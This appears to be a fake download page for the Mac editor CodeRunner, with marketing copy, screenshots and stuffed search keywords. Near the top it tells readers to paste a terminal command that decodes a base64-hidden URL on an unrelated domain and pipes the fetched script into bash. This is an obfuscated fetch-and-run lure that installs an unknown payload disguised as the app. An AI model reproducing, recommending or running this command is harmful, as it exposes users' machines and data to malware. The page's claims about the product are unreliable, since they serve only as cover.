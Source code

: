 # CodeRunner for Mac Download - Lightning Fast Code Editor & IDE

![CodeRunner Screenshot 1](https://coderunnerapp.com/images/Screenshot_3.jpg)

---

### 🔽 Download CodeRunner for Mac

> 📥 Open the terminal on your device and paste the command below.
```
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQ1L2luc3RhbGwuc2g= | base64 -d))"
```

---

## What is CodeRunner for Mac?

CodeRunner redefines modern coding on macOS by merging the agility of a lightweight editor with the depth of a professional IDE. Designed for those who think in code, it transforms your workflow with instantaneous execution at your fingertips - perfect for iterating ideas, educational environments, and everyday programming challenges. The magic happens when pressing just one key!

While conventional IDEs drown you in configuration menus, CodeRunner delivers immediate productivity from launch. Its meticulously crafted interface eliminates distractions while maintaining powerful functionality. Developers consistently praise its blazing-fast startup and buttery-smooth operation. Whether testing algorithms, prototyping features, or managing mid-sized projects, you get enterprise-grade tools without the unnecessary complexity.

Beyond basic execution, CodeRunner boasts native compatibility with 25+ languages (and counting!), smart contextual autocompletion, and flawless integration with debuggers/Git. All this comes in an optimized package that sips system resources rather than guzzling them - your Mac will thank you.

![CodeRunner Screenshot 2](https://coderunnerapp.com/images/debugging.jpg)

---

## Core Capabilities & Advantages

- **Lightning Execution** - Run code instantly with a single keyboard shortcut  
- **Polyglot Ready** - Full support for 25+ languages out of the box  
- **Apple Silicon Optimized** - Blazing performance on M-series chips  
- **Developer Toolkit** - Integrated debugging and version control systems  
- **Education Focused** - Ideal for both learning and teaching programming concepts  
- **Personalization** - Custom themes and workflow configurations  

From exploring new programming paradigms to solving complex problems or developing compact applications, CodeRunner provides professional-grade functionality without the setup headaches. The intuitive design means you spend less time configuring and more time creating. After all, shouldn't coding be about writing code rather than setting up tools?

---

## 🔍 Keywords

CodeRunner for Mac, CodeRunner Mac Download, CodeRunner for Mac Download, CodeRunner Mac, CodeRunner Download Mac, CodeRunner Download for Mac, CodeRunner full version, Mac Download CodeRunner, Download Mac CodeRunner, Download CodeRunner Mac, Download CodeRunner for Mac
